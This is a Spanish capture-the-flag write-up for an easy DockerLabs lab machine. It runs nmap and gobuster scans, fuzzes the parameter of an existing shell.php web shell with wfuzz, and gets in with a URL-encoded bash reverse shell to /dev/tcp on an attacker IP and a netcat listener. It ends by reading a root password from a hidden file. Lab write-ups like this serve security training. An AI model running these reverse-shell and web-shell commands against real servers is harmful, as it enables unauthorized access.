


[[Writeups]]
#Writeups #Easy #DockerLabs 


Empezamos con un escaneo general:

```bash
❯ sudo nmap -sS -Pn -p- --min-rate 5000 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-25 16:27 CEST
Nmap scan report for 172.17.0.2
Host is up (0.0000060s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE
80/tcp open  http
MAC Address: 02:42:AC:11:00:02 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 1.06 seconds
```

Parece que solo hay un servicio http, vamos a hacer un escaneo más profundo:

```bash
❯ sudo nmap -sCV 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-25 16:28 CEST
Nmap scan report for 172.17.0.2
Host is up (0.000016s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.57 ((Debian))
|_http-title: Academia de Ingl\xC3\xA9s (Inglis Academi)
|_http-server-header: Apache/2.4.57 (Debian)
MAC Address: 02:42:AC:11:00:02 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.58 seconds
```

Se ve que es una web de enseñanza de ingles, vamos a buscar en el navegador a ver como esta la web:


Una web muy sencilla, al final de la web vemos este mensaje:


Usamos gobuster para ver directorios que puedan estar escondidos:

```zsh 
❯ gobuster dir -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://172.17.0.2 -x php,html,txt,js,xml
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,html,txt,js,xml
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 275]
/.html                (Status: 403) [Size: 275]
/index.html           (Status: 200) [Size: 2510]
/shell.php            (Status: 500) [Size: 0]
/warning.html         (Status: 200) [Size: 315]
/.html                (Status: 403) [Size: 275]
/.php                 (Status: 403) [Size: 275]
/server-status        (Status: 403) [Size: 275]
Progress: 1323354 / 1323360 (100.00%)
===============================================================
Finished
===============================================================

```

La pagina warning tiene este mensaje:


y la web shell.php da error al entrar, por lo que intuimos del mensaje y del directorio shell, tenemos que añadir en la url un parámetro para que shell.php se ejecute, con esto vamos a usar la herramienta wfuzz ya que la diferencia de gobuster podemos especificar donde queremos que haga la fuerza bruta.

Intuimos que la webshell sería algo así:

```php
<?php	system($_GET['Parametro_que_no_sabemos']); ?>
```

así que ponemos el siguiente comando con WFUZZ:

```zsh
❯ wfuzz -c --hc=404,500 -t 100 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -u "http://172.17.0.2/shell.php?FUZZ=whoami"
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzzs documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://172.17.0.2/shell.php?FUZZ=whoami
Total requests: 220559

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                      
=====================================================================

000115401:   200        2 L      2 W        21 Ch       "parameter"                                                                                                  
 /usr/lib/python3/dist-packages/wfuzz/wfuzz.py:80: UserWarning:Finishing pending requests...

Total time: 0
Processed Requests: 159255
Filtered Requests: 159254
Requests/sec.: 0
```

y efectiviwonder, encontramos el parametro, vamos a probarlo en la web:



aunque tenemos esta shell vamos a obtenerla en una temrinal loca para tener un uso mas comodo, para eso vamos a insertar una rev shell one liner de bash encodeada en formato url:

```zsh

bash -c "bash -i >& /dev/tcp/192.168.1.217/1234 0>&1"

#Este comando le asignamos nuestra ip y el puerto de escucha y lo encodeamos a formato URL y obtenemos este:

bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.1.217%2F1234%200%3E%261%22

```

nos ponemos a las escucha con net cat:
```bash
❯ nc -lvnp 1234
listening on [any] 1234 ...

```

nos quedaría esta url:

```zsh
http://172.17.0.2/shell.php?parameter=bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.1.217%2F1234%200%3E%261%22
```

y obtenemos acceso:

```zsh
❯ nc -lvnp 1234
listening on [any] 1234 ...
connect to [192.168.1.217] from (UNKNOWN) [172.17.0.2] 44604
bash: cannot set terminal process group (23): Inappropriate ioctl for device
bash: no job control in this shell
www-data@7d3bb0410a30:/var/www/html$ 
```

ahora vamos a ver en la carpeta tmp de la raíz por el primer mensaje que obtuvimos en la web:

```zsh
www-data@7d3bb0410a30:/var/www/html$ cd /
cd /
www-data@7d3bb0410a30:/$ cd tmp
cd tmp
www-data@7d3bb0410a30:/tmp$ ls -la
ls -la
total 4
drwxrwxrwt 1 root root  22 May 25 15:11 .
drwxr-xr-x 1 root root 152 May 25 15:11 ..
-rw-r--r-- 1 root root  21 Apr 12 16:07 .secret.txt
www-data@7d3bb0410a30:/tmp$ cat .secret.txt
cat .secret.txt
contraseñaderoot123

```

vaya, tenemos la contraseña de root, por lo que solo nos cambiaremos al ususario root con la contraseña y ya habriamos vulnerado completamente la maquina:


